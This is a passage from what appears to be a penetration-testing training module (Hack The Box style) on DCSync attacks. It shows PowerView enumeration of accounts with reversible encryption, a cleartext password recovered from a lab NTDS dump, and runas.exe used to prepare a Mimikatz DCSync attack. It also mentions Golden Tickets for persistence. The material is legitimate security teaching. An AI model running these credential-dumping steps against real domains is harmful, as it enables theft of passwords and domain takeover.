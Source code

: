 We can see that one account, `proxyagent`, has the reversible encryption option set with PowerView as well:

#### Checking for Reversible Encryption Option using Get-DomainUser

  DCSync

```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

We will notice the tool decrypted the password and provided us with the cleartext value.

#### Displaying the Decrypted Password

  DCSync

```shell-session
trmchale@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

I have been on a few engagements where all user accounts were stored using reversible encryption. Some clients may do this to be able to dump NTDS and perform periodic password strength audits without having to resort to offline password cracking.

We can perform the attack with Mimikatz as well. Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence, but that is outside the scope of this module.

Also it is important to note that Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

#### Using runas.exe

  DCSync

```cmd-session
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```

From the newly spawned powershell session, we can perform the attack:

#### Performing the Attack with Mimikatz

  DCSync

